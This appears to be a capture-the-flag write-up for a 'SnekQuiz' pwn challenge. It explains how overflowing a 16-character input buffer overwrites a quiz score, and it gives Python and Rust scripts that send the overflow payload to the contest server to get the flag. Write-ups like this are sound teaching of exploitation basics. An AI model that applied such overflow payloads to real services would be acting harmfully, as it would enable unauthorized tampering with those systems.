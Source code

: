 
SnekQuiz - [pwn] - 200pts
As with each pwning challenge, the first step is to understand how the program works, what input it takes, what output it produces, and see if there are any values that will produce unexpected output.

![](images/test_run_1.png)


Ok, so lets see what happens when we provide the correct answers to the questions.

![](images/test_run_2.png)


Great! We get some points. But we run into a bit of a problem, we need to get 5 points and we are only asked 3 questions :( oh no!!

Ok, lets try running the program one time, but with some strange values and see what we get.

![](images/run_3.png)


Ha! Thats strange, where `10` coming from?  Well it seems we have a buffer of 16 characters to work with, anything past that causes on overflow which modified the score.  So, can we write some value which will change the score to 5 and give us the flag?  Lets find out!


I wrote a quick Python script which will send our exploit string to the server.

```python
import socket
import time


# setup the socket stuff
try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
except socket.error as e:
    print "[!] Failed to initiate socket\n"
    sys.exit()
else:
    print "[+] Socket successfully created\n"

    # connect to the socket
    HOST = "challenge.uiuc.tf"
    PORT = 11343
    sock.connect((HOST, PORT))



# run the exploit
while True:
    output = sock.recv(1024)
    if output == None or output == "":
        break
    else:
        sock.send("aaaaaaaaaaaaaaaa\x05")
        print output

```

And voila!
![](images/the_flag.png)



**Side Note**
I had a bit of time on my hands, so I also wrote the same exploit in `Rust` because why not.

```rust
extern crate bufstream;
use std::net::TcpStream;
use bufstream::BufStream;

// Traits
use std::io::BufRead;
use std::io::Write;


fn main() {
    if let Ok(stream) = TcpStream::connect("challenge.uiuc.tf:11343") {
        let mut buffer = BufStream::new(stream);
        loop {
            let mut output = String::new();
            if output == " " {
                break;
            } else {
                buffer.read_line(&mut output).unwrap();
                buffer.write_all(b"aaaaaaaaaaaaaaaa\x05").unwrap();
                buffer.flush().unwrap();
                print!("{}", output);
            }
        }
    } else {
        println!("[!] Unable to connect!");
    }
}
```

![](images/rust_exploit.png)

